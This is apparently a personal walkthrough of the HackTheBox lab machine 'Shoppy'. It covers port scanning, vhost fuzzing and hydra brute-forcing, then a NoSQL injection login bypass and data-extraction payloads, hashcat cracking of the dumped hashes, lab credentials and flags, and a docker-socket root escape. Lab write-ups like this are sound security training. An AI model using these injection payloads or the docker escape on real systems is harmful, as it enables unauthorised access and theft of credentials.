


==
tags: #linux #easy #nosql-injection
=

* nmap
  #+begin_src bat
  sudo nmap -sV -sC -oA nmap/shoppy.basic 10.129.227.233

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 9e:5e:83:51:d9:9f:89:ea:47:1a:12:eb:81:f9:22:c0 (RSA)
|   256 58:57:ee:eb:06:50:03:7c:84:63:d7:a3:41:5b:1a:d5 (ECDSA)
|_  256 3e:9d:0a:42:90:44:38:60:b3:b6:2c:e9:bd:9a:67:54 (ED25519)
80/tcp open  http    nginx 1.23.1
|_http-server-header: nginx/1.23.1
|_http-title: Did not follow redirect to http://shoppy.htb
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
  #+end_src
** full scan
   reveals an additional port
   #+begin_src bat
   sudo nmap  -p- -A -T4 -oA nmap/shoppy.full 10.129.227.233

9093/tcp open  http    Golang net/http server
|_http-title: Site doesn't have a title (text/plain; version=0.0.4; charset=utf-8)
| fingerprint-strings:
|   GenericLines:
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|   GetRequest:
|     HTTP/1.0 200 OK
   #+end_src
* port 80
  redirects to =shoppy.htb=, so add it to hosts. there's nothing in the page source.
* fuzz
  #+begin_src 
  gobuster dir -u http://shoppy.htb/ -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-small.txt

login
  #+end_src
** fuzz subdomains
   #+begin_src bat
   ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt:FUZZ -u http://FUZZ.shoppy.htb/
   #+end_src
*** with gobuster
    #+begin_src bat
    gobuster dns -d shoppy.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt
    #+end_src
** vhost fuzzing
   #+begin_src bat
   gobuster vhost -u http://shoppy.htb/ -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt --append-domain -t 60
   #+end_src
*** with ffuf
   #+begin_src bat
   ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -u  http://shoppy.htb/ -H "Host: FUZZ.shoppy.htb"
   #+end_src
** parameter fuzzing
   #+begin_src bat
   ffuf -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -u http://shoppy.htb/login?FUZZ=SUCCESS
   #+end_src
  this returns 200 for everything.
** fuzz post param
   #+begin_src 
   $ ffuf -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -u http://shoppy.htb/login -X POST -d 'FUZZ=key' -H 'Content-Type: application/x-www-form-urlencoded'
   #+end_src
* login endpoint
  #+DOWNLOADED: file:C%3A/Users/shyam/Desktop/2026-06-06_11-55.png @ 2026-06-06 11:55:20
  
  tried =admin:admin=; however, it doesn't work and we get redirected to
  #+begin_src bash
  http://shoppy.htb/login?error=WrongCredentials
  #+end_src
* hydra post form
  #+begin_src bat
  $ hydra -l admin -P /usr/share/wordlists/rockyou.txt shoppy.htb http-post-form "/login:username=^USER^&password=^PASS^:F=Wrong Credentials"
  #+end_src
  takes too long and finds nothing; retry with a shorter wordlist (also with a =-V= option)
  #+begin_src bat
  $ hydra -l admin -P /usr/share/seclists/Passwords/2023-200_most_used_passwords.txt shoppy.htb http-post-form "/login:username=^USER^&password=^PASS^:F=Wrong Credentials" -V
  #+end_src
  finds nothing.
** with common usernames list
   #+begin_src bat
   $ hydra -L /usr/share/seclists/Usernames/top-usernames-shortlist.txt -P /usr/share/seclists/Passwords/2023-200_most_used_passwords.txt shoppy.htb http-post-form "/login:username=^USER^&password=^PASS^:F=Wrong Credentials" -V
   #+end_src
* sqlmap
  save the login request to a file:
  #+begin_src bat
  POST /login HTTP/1.1
  Host: shoppy.htb
  User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
  Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
  Accept-Language: en-US,en;q=0.5
  Accept-Encoding: gzip, deflate, br
  Content-Type: application/x-www-form-urlencoded
  Content-Length: 28
  Origin: http://shoppy.htb
  Connection: keep-alive
  Referer: http://shoppy.htb/login
  Upgrade-Insecure-Requests: 1
  Priority: u=0, i

  username=admin&password=test
  #+end_src
  run sqlmap:
  #+begin_src bat 
  sqlmap -r login.req --batch
  #+end_src
* port 9093
  seems to be some kind of golang service; visiting http://shoppy.htb:9093 shows us some log
  file:
  #+begin_src 
  # HELP go_gc_cycles_automatic_gc_cycles_total Count of completed GC cycles generated by the Go runtime.
  # TYPE go_gc_cycles_automatic_gc_cycles_total counter
  go_gc_cycles_automatic_gc_cycles_total 39
  # HELP go_gc_cycles_forced_gc_cycles_total Count of completed GC cycles forced by the application.
  # TYPE go_gc_cycles_forced_gc_cycles_total counter...
<SNIP>
  playbooks_plugin_system_playbook_instance_info{Version="1.29.1"} 1
  #+end_src
** directory fuzz
   #+begin_src bat
   gobuster dir -u http://shoppy.htb:9093/ -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-small.txt
   #+end_src
** vhost fuzz
   #+begin_src bat
   ffuf -u http://shoppy.htb:9093/ -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt:FUZZ -H "Host: FUZZ.shoppy.htb" -fs 19178 -c
   #+end_src
** subdomain
   #+begin_src bat
   ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt:FUZZ -u http://FUZZ.shoppy.htb:9093/ -c
   #+end_src
   NOTE: =-c= is very useful - adds color to the output
* prometheus
   the last line in the log seems to refer to prometheus; however, the usual endpoints like
   #+begin_src bat
   /api/v1/status/config
   #+end_src
   return just the same default page; this was also noticed in the ffuf page scan - every
   endpoint is status 200 and the same content, essentially.
* fuzz for file inclusion
  #+begin_src bat
  $ ffuf -w /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ -u 'http://shoppy.htb/login?error=FUZZ' -fs 1074
  #+end_src
* guided mode
  #+begin_src 
  Which sub-domain of the website leads to the Mattermost chat application?
  #+end_src
  ok this is both concerning and a relief - there isn't some technique we are just completely
  unaware of or have overlooked but it's concerning we've been doing the fuzzing incorrectly.
** subdomain fuzzing with wfuzz
   #+begin_src bat
   wfuzz -c -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -u 10.129.227.233 -H "Host: FUZZ.shoppy.htb" --hc 301
   #+end_src
   this is not a subdomain but a vhost. we missed =mattermost= because it doesn't exist in the
   =/usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt= wordlist
   #+begin_src bat
   $ gobuster vhost -u http://10.129.227.233 -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt --domain shoppy.htb --append-domain
   #+end_src
   also version we tried earlier works as well with the right wordlist:
   #+begin_src bat
   $ gobuster vhost -u http://shoppy.htb/ -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt --append-domain
   #+end_src
* mattermost server
  there's a login form for which the usual creds don't work
** directory fuzzing
   #+begin_src bat
   gobuster dir -u http://mattermost.shoppy.htb/ -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-small.txt --exclude-length 3122
   #+end_src
   this doesn't work even after the =--exclude-length= switch because everything gets redirected
   to =/login= with a 200 status.
   #+begin_src 
   ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u http://mattermost.shoppy.htb/FUZZ
   #+end_src
* guided mode
  #+begin_src 
  Is the login form vulnerable to authentication bypass via NoSQL injection?
  #+end_src
  well, i wasn't expecting that. the hint suggests looking at [[https://nullsweep.com/a-nosql-injection-primer-with-mongo/][this link]] for payloads.
  tried this payload following the link but it doesn't work
  #+begin_src js
  {"device_id":"","login_id":"admin","password":"{"$ne": 1}","token":""}
  #+end_src
  ok, maybe it was dumb of me, but it's not the mattermost application that's vulnerable. it's
  the original 
** working nosql injection authentication bypass payload
   #+begin_src 
   admin' || '' === '
   #+end_src
* the application
  we're greeted with a screen which allows us to search for users on the app:
  #+DOWNLOADED: file:C%3A/Users/shyam/Desktop/2026-06-12_16-17.png @ 2026-06-12 16:18:24
  

  use the data extraction payload from the link
  #+begin_src 
  ' || 'a'=='a
  #+end_src
  and we get a file which contains this:
  #+begin_src js
[{"_id":"62db0e93d6d6a999a66ee67a","username":"admin","password":"23c6877d9e2b564ef8b32c3a23de27b2"},{"_id":"62db0e93d6d6a999a66ee67b","username":"josh","password":"6ebcea65320589ca4f2f1ce039975995"}]
  #+end_src
* crack user password
  let's crack the passwords;
  #+begin_src bat
  $ cat users.hash 

admin:23c6877d9e2b564ef8b32c3a23de27b2
josh:6ebcea65320589ca4f2f1ce039975995

  $ hashcat -m 0 --username users.hash /usr/share/wordlists/rockyou.txt

  $ hashcat -m 0 --username users.hash --show

josh:6ebcea65320589ca4f2f1ce039975995:remembermethisway
  #+end_src
* mattermost
  sign in with the creds and find creds to a machine:
  #+begin_src 
  username: jaeger
  password: Sh0ppyBest@pp!
  #+end_src
* user flag
  #+begin_src 
  jaeger@shoppy:~$ cat user.txt 
ef1118f5135ac0890ef3cda203e3d22b
  #+end_src
* privesc
** sudo -l
   #+begin_src bat
   jaeger@shoppy:~$ sudo -l

User jaeger may run the following commands on shoppy:
    (deploy) /home/deploy/password-manager
   #+end_src
** run as user
   #+begin_src bat
   jaeger@shoppy:~$ sudo -u deploy /home/deploy/password-manager

Welcome to Josh password manager!
Please enter your master password: Sh0ppyBest@pp!
Access denied! This incident will be reported !
   #+end_src
   also fails with the password =remembermethisway=
** credential hunting
   the usual stuff doesn't reveal anything other than the json config file we
   exfiltrated.
** linpeas
   running linpeas reveals the config is ripe for path abuse:
   #+begin_src bat
   jaeger@shoppy:~$ echo $PATH
   
/home/jaeger/.nvm/versions/node/v18.6.0/bin:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
   #+end_src
** examine the binary
   tried to reverse the binary to determine the password; 
   but before this, just running =cat= on the binary reveals:
   #+begin_src bat
   Welcome to Josh password manager!Please enter your master password: SampleAccess granted! Here is creds !cat /home/deploy/creds.txtAccess denied! This incident will be reported !
   #+end_src
   examining the binary in gdb reveals the password might indeed be =Sample=
   #+begin_src bat
   let's check:
   jaeger@shoppy:~$ sudo -u deploy /home/deploy/password-manager

Welcome to Josh password manager!
Please enter your master password: Sample
Access granted! Here is creds !
Deploy Creds :
username: deploy
password: Deploying@pp!
   #+end_src
* privesc to root
  #+begin_src bat
  deploy@shoppy:~$ sudo -l

Sorry, user deploy may not run sudo on shoppy.
  #+end_src
** check groups
  #+begin_src
  deploy@shoppy:~$ groups

deploy docker
  #+end_src
** docker
   from the docker based privesc [[file:d:/code/htb/academy/modules/linux-privilege-escalation/docker.org::*Docker Socket][section]]:
   #+begin_src bat
   deploy@shoppy:~$ docker image ls

REPOSITORY   TAG       IMAGE ID       CREATED       SIZE
alpine       latest    d7d3d98c851f   3 years ago   5.53MB

   deploy@shoppy:~$ docker -H unix:///var/run/docker.sock run -v /:/mnt --rm -it alpine chroot /mnt bash

   root@b4127f8c00e0:/# ls
bin   dev  home        initrd.img.old  lib32  libx32      media  opt   root  sbin  sys  usr  vmlinuz
boot  etc  initrd.img  lib             lib64  lost+found  mnt    proc  run   srv   tmp  var  vmlinuz.old

   root@b4127f8c00e0:/# cd root

   root@b4127f8c00e0:~# cat root.txt

79def435414bb86a7d452885a15b3293
   #+end_src
* ippsec
** id'ing it's a node app
   tries a non-existent endpoint:
   #+begin_src 
   Cannot GET /PleaseSubscribe
   #+end_src
   this is a nodejs thing. and since it's node, it's probably not using mysql
** nosql injection payload
   injects the below into the username field and the password can be anything.
   #+begin_src
   admin'||'=='1
   #+end_src
** cracking the password-manager application
   tries to check if there's a buffer overflow; doesn't work, so tries =strings=
   interstingly, =strings= doesn't reveals the *Sample* string whereas we are 
   able to see it with =cat=; here's the relevant part of the code from the =cpp=
   file present along with the binary:
   #+begin_src cpp
   deploy@shoppy:~$ cat password-manager.cpp 

   <SNIP>
    std::string master_password = "";
    master_password += "S";
    master_password += "a";
    master_password += "m";
    master_password += "p";
    master_password += "l";
    master_password += "e";
   <SNIP>
   #+end_src
   so =strings= misses this because it needs to be read in little-endian fashion
   #+begin_src 
   $ strings -e l password-manager 

Sample
   #+end_src
   "*always try changing the encoding method with strings*"
   "you generally want to do encryption or XORing if you want to hide
   passwords from strings"
